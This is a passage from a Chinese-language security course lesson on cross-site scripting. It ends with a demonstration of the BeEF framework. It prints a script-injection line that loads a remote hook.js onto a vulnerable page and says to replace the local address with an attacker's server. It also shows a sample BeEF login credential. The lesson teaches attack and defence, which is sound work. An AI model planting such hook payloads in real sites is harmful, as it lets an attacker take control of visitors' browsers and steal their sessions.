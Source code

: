 我本地得到地址是：http://127.0.0.1:3000/hook.js（实际攻击时，可将 127.0.0.1 替换成你的远程服务器地址），那我就可以在漏洞页面插入如下代码进行利用：

```java
<script>http://127.0.0.1:3000/hook.js</script>
```

受害者访问后，若利用成功的话，在 BeEF 管理页面（此处为 http://127.0.0.1:3000/ui/panel）就可以看到目标上线了。

<Image alt="Drawing 25.png" src="https://s0.lgstatic.com/i/image/M00/8B/9D/Ciqc1F_cOymAFUlLAAJ8WDrvvw8214.png"/>  
图 26：BeEF 漏洞利用框架

刚运行的时候，BeEF 会生成随机密码，账号为 beef，比如：

```java
Beef credentials: beef:aaGivbkemeYNtCYRFrlyQN75lcmMYMm5
```

用上面的账号密码登录即可；你也可以修改 config.yaml 中的账号密码再运行。

BeEF 上面的利用功能实在是太多了，你可以把每个功能都试用一下，相信你试用完之后会对 XSS 的危害和利用手法有新的认识。

### 总结

最后，我对这一讲的内容做个总结。

首先，我介绍了 XSS 的起源以及危害，然后讲解了反射型、存储型和 DOM 型 XSS 的原理，并从代码层面分析了漏洞成因。随后我介绍了各种常见的 XSS 攻击手法，结合实例分析了 Cookie 窃取和蠕虫攻击的具体实现，帮助你进一步了解 XSS 的危害。

BeEF 是一款优秀的 XSS 攻击框架，包含有非常丰富的 XSS 漏洞利用功能，如果你想深入学习 XSS 的攻击手段，从 BeEF 入手是不错的选择。BeEF 已经在 GitHub 开源，主要是采用 JavaScript 和 Ruby 开发，你可以重点研究下漏洞利用中的 JavaScript 代码，即 hook.js 文件。

如果你有什么好的 BeEF 利用技巧，或者是其他优秀的 XSS 利用工具，欢迎你在留言区留言推荐。

下一讲，我将介绍如何挖掘三大类型的 XSS 漏洞以及如何防御，到时见\~

<Image alt="Lark20201224-160053.png" src="https://s0.lgstatic.com/i/image2/M01/03/E8/CgpVE1_kTHSAL9KqAAUNAGwX_GM335.png"/>
